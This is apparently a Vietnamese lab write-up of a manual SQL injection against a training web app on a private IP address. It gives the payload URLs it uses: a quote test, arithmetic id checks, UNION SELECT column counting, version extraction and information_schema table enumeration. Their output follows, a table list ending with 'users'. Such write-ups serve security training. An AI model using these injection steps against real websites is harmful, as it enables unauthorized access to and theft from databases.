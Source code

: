 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Cách làm:
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:

| No. | Table                                          |
| --- | ---------------------------------------------- |
| 1   | picture: ruby                                  |
| 2   | picture: cthulhu                               |
| 3   | picture: character_sets                        |
| 4   | picture: collations                            |
| 5   | picture: collation_character_set_applicability |
| 6   | picture: columns                               |
| 7   | picture: column_privileges                     |
| 8   | picture: engines                               |
| 9   | picture: events                                |
| 10  | picture: files                                 |
| 11  | picture: global_status                         |
| 12  | picture: global_variables                      |
| 13  | picture: key_column_usage                      |
| 14  | picture: partitions                            |
| 15  | picture: plugins                               |
| 16  | picture: processlist                           |
| 17  | picture: profiling                             |
| 18  | picture: referential_constraints               |
| 19  | picture: routines                              |
| 20  | picture: schemata                              |
| 21  | picture: schema_privileges                     |
| 22  | picture: session_status                        |
| 23  | picture: session_variables                     |
| 24  | picture: statistics                            |
| 25  | picture: tables                                |
| 26  | picture: table_constraints                     |
| 27  | picture: table_privileges                      |
| 28  | picture: triggers                              |
| 29  | picture: user_privileges                       |
| 30  | picture: views                                 |
| 31  | picture: categories                            |
| 32  | picture: pictures                              |
| 33  | picture: users                                 |